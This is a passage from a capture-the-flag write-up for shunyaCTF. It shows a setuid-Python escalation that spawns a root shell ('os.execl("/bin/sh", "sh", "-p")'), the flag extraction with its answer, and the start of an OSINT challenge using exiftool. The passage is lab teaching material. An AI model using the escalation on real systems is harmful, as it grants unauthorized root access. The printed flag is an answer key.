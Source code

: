 ```bash
aalu@aalu-center:~$ womp -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=1000(aalu) gid=1000(aalu) euid=0(root) groups=1000(aalu),4(adm),24(cdrom),30(dip),46(plugdev),117(lxd)
# cd /root	
# ls
<Bunch of Random Fake Flags>  snap
flag145.txt  flag190.txt  flag235.txt  flag281.txt  flag326.txt  flag371.txt  flag56.txt
```

Then extract the flag.

```bash
# ls -a|xargs cat * 2>/dev/null|grep shunya|grep -v fakeflag
shunyaCTF{1_10v3_h0n3y}
```

**Flag**: `shunyaCTF{1_10v3_h0n3y}`

## OSINT

### Dr. Homofomo

**Description:** Hey Detective, Dr. HOMOFOMO, a cryptologist, has gone underground after discovering a illegal encryption technique. Rumour has it, he’s left a digital trail that leads to his hidden online journal, which contains the secret formula. I've heard you’re good with finding things online. Your mission is to find the journal and uncover the secret.

**Given**: `homesweethome.pdf`

**Author**: Vaibhav Gawai [`FEL1X`]

After opening the PDF, you could see hidden text written at the top. I think about going into Google Lens, but that yielded nothing. `exiftool` gave two keywords - `DAGJf30TiCQ BAE8csRKboE.`

Which I had no clue whatsoever. Well if you look really closely.

![14](./14.png)

We get a `v41bhx` , seems like a username! Let’s run it on 

[](https://whatsmyname.app/)
